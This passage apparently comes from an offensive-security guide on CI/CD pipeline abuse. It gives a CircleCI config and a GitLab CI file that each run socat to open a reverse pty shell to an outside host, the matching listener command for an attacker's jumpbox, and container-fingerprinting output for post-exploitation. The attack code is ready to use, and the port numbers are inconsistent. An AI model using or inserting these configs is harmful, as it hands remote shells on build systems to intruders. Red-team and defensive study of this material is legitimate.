 ```
version: 2
jobs:
  build:
    machine:
    steps:
      - checkout
      - run: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:x.x.x.x:55555
```

To receive the shell from your SOCAT command above, run the following command on your jumpbox:

```
socat file:`tty`,raw,echo=0 tcp-listen:55555 
```

### gitlab-ci.yml to get a shell (plaintext)

The [gitlab-ci.yml](gitlab/gitlab-ci.yml) file can be used in your git repo as .gilab-ci.yml to receive a reverse pty shell: 

```
docker-build:
  # Official docker image.
  image: docker:latest
  stage: build
  services:
    - docker:dind
      #  before_script:
      #- docker login -u "$CI_REGISTRY_USER" -p "$CI_REGISTRY_PASSWORD" $CI_REGISTRY
  script:
    - apk update
    - apk add socat bash
    - /usr/bin/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:your.host.invalid:4444

```

To receive the shell from your SOCAT command above, run the following command on your jumpbox:

```
socat file:`tty`,raw,echo=0 tcp-listen:55555 
```

## Post Exploitation Techniques

### Identify what you are running in 
Are you running in a Container? Docker? LXC? VM?
Running [amIContained](https://github.com/genuinetools/amicontained) will help you determine this by running:

```
root@2a16ee24d301:/# ./amicontained-linux-amd64 
Container Runtime: docker
Has Namespaces:
        pid: true
        user: false
AppArmor Profile: unconfined
Capabilities:
        BOUNDING -> chown dac_override fowner fsetid kill setgid setuid setpcap net_bind_service net_raw sys_chroot mknod audit_write setfcap
Seccomp: filtering
Blocked Syscalls (64):
        MSGRCV SYSLOG SETSID USELIB USTAT SYSFS VHANGUP PIVOT_ROOT _SYSCTL ACCT SETTIMEOFDAY MOUNT UMOUNT2 SWAPON SWAPOFF REBOOT SETHOSTNAME SETDOMAINNAME IOPL IOPERM CREATE_MODULE INIT_MODULE 
DELETE_MODULE GET_KERNEL_SYMS QUERY_MODULE QUOTACTL NFSSERVCTL GETPMSG PUTPMSG AFS_SYSCALL TUXCALL SECURITY LOOKUP_DCOOKIE CLOCK_SETTIME VSERVER MBIND SET_MEMPOLICY GET_MEMPOLICY KEXEC_LOAD ADD
```